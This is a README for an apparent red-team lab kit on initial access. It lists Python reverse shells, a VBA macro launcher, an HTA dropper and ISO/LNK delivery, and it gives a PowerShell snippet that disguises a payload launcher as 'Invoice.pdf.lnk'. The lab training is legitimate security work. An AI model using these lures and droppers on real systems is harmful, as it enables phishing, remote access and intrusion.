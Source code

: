 # Foothold Lab – Part 1: Initial Access with Python

## ⚠️ Disclaimer
This repository is for **educational purposes only**. It is intended for ethical hackers, red teamers, and cybersecurity professionals operating in lab environments. Do **not** deploy any of this in production or without proper authorization.

## 💻 What’s Included
- `payloads/`: Basic and obfuscated Python reverse shells
- `macro/`: VBA macro launcher for Word documents
- `hta/`: HTML Application dropper using mshta.exe
- `iso/`: LNK-based ISO delivery components

## 🧪 Lab Setup
1. Create a Windows 10/11 VM (VirtualBox/VMware)
2. Disable Defender temporarily inside the VM
3. Install Python and set PATH
4. Serve `rev.py` via HTTP (e.g., `python -m http.server`)
5. Generate `.lnk` using PowerShell:
```powershell
$Wsh = New-Object -ComObject WScript.Shell
$Lnk = $Wsh.CreateShortcut("Invoice.pdf.lnk")
$Lnk.TargetPath = "python"
$Lnk.Arguments = "payload.py"
$Lnk.IconLocation = "notepad.exe"
$Lnk.Save()
```
6. Use `PackMyPayload` or ISO creation tool to bundle the ISO.

## 🔗 Next: Privilege Escalation & Credential Dumping
Stay tuned for Part 2.
